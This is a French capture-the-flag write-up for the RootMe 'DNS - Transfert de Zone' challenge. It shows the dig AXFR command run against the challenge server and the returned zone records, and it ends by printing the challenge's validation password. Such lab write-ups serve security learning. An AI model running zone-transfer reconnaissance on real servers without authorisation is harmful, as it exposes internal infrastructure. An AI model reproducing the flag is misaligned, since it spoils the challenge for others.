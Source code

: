 # Challenge RootMe :DNS - Transfert de Zone

- **Catégorie** : Réseau  
- **Difficulté** : ⭐⭐
- **Objectif** : Récupérer le mot de passe de validation en exploitant une mauvaise configuration de transfert de zone DNS.

---

## 📝 Étapes de résolution

### 1. Identification de la cible
- **Hôte** : `challenge01.root-me.org`
- **Port** : `54011`
- **Domaine** : `ch11.challenge01.root-me.org`
- **Protocole** : `DNS`

### 2. Exécution de la commande de transfert de zone
Utilisation de l'outil `dig` pour lancer une requête de transfert de zone :
```bash
dig @challenge01.root-me.org -p 54011 AXFR ch11.challenge01.root-me.org.
```

### 3. Analyse de la réponse DNS

La réponse obtenue présente plusieurs enregistrements DNS. Un extrait significatif de la réponse est le suivant :

```bash
ch11.challenge01.root-me.org. 604800 IN SOA     ch11.challenge01.root-me.org. root.ch11.challenge01.root-me.org. 2 604800 86400 2419200 604800
ch11.challenge01.root-me.org. 604800 IN TXT     "DNS transfer secret key : CBkFRwfNMMtRjHY"
ch11.challenge01.root-me.org. 604800 IN NS      ch11.challenge01.root-me.org.
ch11.challenge01.root-me.org. 604800 IN A       127.0.0.1
challenge01.ch11.challenge01.root-me.org. 604800 IN A 192.168.27.101
```

### 4. Récupération du mot de passe

L'enregistrement TXT contient le mot de passe de validation :

```plaintext
DNS transfer secret key : CBkFRwfNMMtRjHY
```
Ce qui nous permet d'obtenir directement le flag.

**🛠 Outils utilisés**
- dig : Utilitaire DNS en ligne de commande
- Terminal UNIX/Linux : Pour exécuter la commande

**🏆 Solution finale**
Mot de passe :
```plaintext
CBkFRwfNMMtRjHY
```
